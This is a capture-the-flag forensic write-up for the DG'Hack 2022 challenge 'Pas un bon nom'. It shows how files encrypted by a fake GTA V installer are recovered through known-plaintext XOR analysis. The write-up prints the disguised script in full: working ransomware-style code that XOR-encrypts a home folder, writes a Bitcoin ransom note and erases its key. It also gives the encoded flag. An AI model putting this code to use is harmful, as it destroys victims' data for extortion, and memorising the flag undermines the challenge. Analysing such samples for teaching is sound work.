 ```yaml
---
createdAt: 2022-11-25
title: "[DG'Hack 2022 - Forensic] Pas un bon nom"
description: "Pas un bon nom is a challenge from DG'hack CTF."
type: 'Writeups'
tags: ["Forensic"]
---
```


# Not a good name - Pas Un Bon Nom

> author : malon 

### Intro 

> I was just sitting there on my PC, m'kay? I'm downloading movies and stuff, mkay? And then there's this weird message that I have to pay Dogecoin to decrypt my data. I didn't do it... so now my data is encrypted :( So here, take the hard drive, it's not like it's useful now... Unless it was possible to find the key used by that evil hacker, m'kay? Would you like it? You'd be lovely thank you!

### Initial step

```bash
ls 
#pc-jeane.ova
```

ova -> virtualbox

once started, we now know that the OS is Lubuntu

```bash
ls
#Desktop    Downloads           Music     Public                          Templates
#Documents  GTA_V_installer.py  Pictures  READ_TO_RETRIEVE_YOUR_DATA.txt  Videos
```

The two files with capitalized names stand out, and indeed
![image-20221111230502233](@/assets/images/blog/dghack/image6.png)

It seems that the owner has downloaded a lot of stuff including a supra legit GTA-V.

### In-depth investigation

*GTA_V_installer.py*

```python
#!/bin/python3

import os
import fileinput
import sys

main_folder = "./"

def encryptDecrypt(inpDataBytes):

    # Define XOR key
    keyLength = len(xorKey)
 
    # calculate length of input string
    length = len(inpDataBytes)
 
    # perform XOR operation of key
    # with every byte
    for i in range(length):
        inpDataBytes[i] = inpDataBytes[i] ^ ord(xorKey[i % keyLength])

    return inpDataBytes

if __name__ == '__main__':
    # list all the files in the main folder, and its subfolders
    #list_of_files = [main_folder + f for f in os.listdir(main_folder) if os.path.isfile(main_folder + f) and not f.startswith('.')]
    list_of_files = []
    for root, dirs, files in os.walk(main_folder):
        for file in files:
            if not '/.' in os.path.join(root, file):
                # get the file name
                list_of_files.append(os.path.join(root, file))
    print(list_of_files)
    print("\n")

    xorKey = input("Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: ")

    for file in list_of_files:
        if "GTA_V_installer.py" not in file:
            with open(file, 'rb') as f:
                data = bytearray(f.read())
                print("data : " + str(data) + "\n")
                encrypted_data = encryptDecrypt(data)
                print("encrypted : " + str(encrypted_data) + "\n")
            with open(file, 'wb') as f:
                f.write(encrypted_data)

    # Create a READ_TO_RETRIEVE_YOUR_DATA.txt file
    with open(main_folder + "READ_TO_RETRIEVE_YOUR_DATA.txt", 'w') as f:
        f.write("Your PC is now encrypted.\nThe only way you may retrieve your data is by sending 1000 Bitcoins to the following address: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa\n")
        f.write("Add a message to the Bitcoin transfer with your email address.\nThe code to decrypt your data will be sent automatically to this email.\n")
        f.write("Once you get this code, simply run \"python GTA_V_installer.py\" and input your code.\n")
        f.write("I'm very sorry for the inconvenience. I need to feed my family.\n")
        f.write("HODL.\n")

    # I replace the line where the key is defined, that way I can use the same script for decryption without leaving any trace of the key
    is_edited = False
    for line in fileinput.input("./GTA_V_installer.py", inplace=1):
        if "xorKey = " in line and not is_edited:
            line = "    xorKey = input(\"Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: \")\n"
            is_edited = True
        sys.stdout.write(line)
```

All the non-hidden files present in /home/jeanne have been encrypted but fortunately, the encryption is simple, the files have just been XORied with a key.

reminder : 
$$
a \oplus b = c \newline
a \oplus c = b
$$
If we take a closer look at the list of encrypted files, we notice the 

- network.desktop
- trash-can.desktop
- user-home.desktop
- computer.desktop

These are the files that allow you to create shortcuts for launching applications from the desktop, by checking a little, I realize that they often have the same format, ( as long as there is no comment), but I decide to turn on a vm lubuntu that I had on hand to go and look for these files that have very strong chances to be the same

I get the two computer.desktop that I display both in hexa

![image-20221111233202365](@/assets/images/blog/dghack/image7.png)


Given computer(1).desktop=A (original file) and computer.desktop=C (our encrypted file) 

if you want to find the encryption key for the xor operation, you just have to xor A and C (to obtain B)

![image-20221111233550094](@/assets/images/blog/dghack/image8.png)

At a glance, the key appears to us

```bash
REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=
```

But it looks like base64 encoded string so : 

```bash
echo -n "REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=" | base64d -d
#DGHACK{***...}
```

Here is our flag :)
